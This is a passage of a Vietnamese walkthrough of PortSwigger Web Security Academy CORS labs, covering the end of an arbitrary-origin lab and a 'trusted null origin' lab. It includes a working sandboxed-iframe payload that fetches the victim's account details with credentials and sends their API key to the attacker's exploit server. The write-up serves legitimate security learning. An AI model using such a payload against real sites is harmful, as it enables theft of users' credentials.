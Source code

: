 >Cụ thể, do server trust origin bất kì từ request nên khi nạn nhân thực thi payload trên thì cross-site request từ trang `exploit-server` đến `<LAB-DOMAIN>/accountDetails` để lấy apikey sẽ thành công. apikey sau khi được lấy sẽ truyền về `exploit-server` của attacker dưới dạng tham số GET.

>Lưu payload vào exploit server: ![image](https://hackmd.io/_uploads/rJ8hs6180.png)

>**"Deliver explit to victim"** và xem lại Log, ta có thể thấy payload đã hoạt động và chuyển api key của victim về server ta controll: ![image](https://hackmd.io/_uploads/Hyp8nayUR.png)

>Hoàn thành bài lab: ![image](https://hackmd.io/_uploads/r1Su3py8C.png)

# **2. Lab: CORS vulnerability with trusted null origin**
>Trang web này có cấu hình CORS không an toàn ở chỗ nó tin tưởng vào nguồn gốc "null".
Để giải quyết bài thí nghiệm, hãy tạo một số JavaScript sử dụng CORS để truy xuất khóa API của quản trị viên và tải mã lên máy chủ khai thác của bạn. Lab sẽ được giải quyết khi bạn gửi thành công khóa API của quản trị viên.
Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: `wiener:peter`
![image](https://hackmd.io/_uploads/H15fkR1IC.png)

>Đăng nhập vào `wiener`, trong `/my-account` cũng hiện API Key của người dùng lên màn hình như trong lab trước: ![image](https://hackmd.io/_uploads/H18EbAk80.png)

>API Key được hiển thị từ 1 hàm JS, mà hàm JS truy cập vào `/accountDetails` để fetch api:
>![image](https://hackmd.io/_uploads/rkG8WRk8R.png)

>Tồn tại thêm 1 request `GET /accountDetails` sẽ dựa vào session tương ứng để lấy dữ liệu người dùng từ server: ![image](https://hackmd.io/_uploads/BysOW018A.png)

>Thấy trong respone có chứa `Access-Control-Allow-Credentials: true` nên đoán ra được rằng server hỗ trợ CORS! 
>Thử thêm 1 header Origin chứa domain bất kì vào trong request để xem server xử lí nó ra sao, thì thấy lần này server đã không tin tưởng Origin bất kì từ request: ![image](https://hackmd.io/_uploads/r1AgGR1LA.png)

>Tuy nhiên, khi thêm header `Origin: null` thì thấy response có header `Access-Control-Allow-Origin: null`. → server cấu hình cho phép `Origin: null` : ![image](https://hackmd.io/_uploads/rJANzAkUR.png)

>Khi đó, dựa vào các trường hợp mà Origin null được sử dụng , ta chọn 1 trường hợp là tag **iframe** với thuộc tính **sandbox** không chứa giá trị `allow-same-origin` để bypass qua whitelist. Payload được xây dựng như sau:
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="data:text/html,<script>
    fetch('//<LAB-ID>.web-security-academy.net/accountDetails', {
        credentials:'include'
    }).then(r => r.json())
      .then(j => fetch('//exploit-<EXPLOIT-ID>.exploit-server.net/?apiKey=' + j.apikey))</script>">
</iframe>
```

>Đoạn script như bài lab 1 sẽ được thực thi thông qua **srcdoc** và **sandbox** cần có giá trị **allow-scripts** để cho phép thực thi script đó.

>Lưu payload vào exploit server: ![image](https://hackmd.io/_uploads/H1JemA1I0.png)
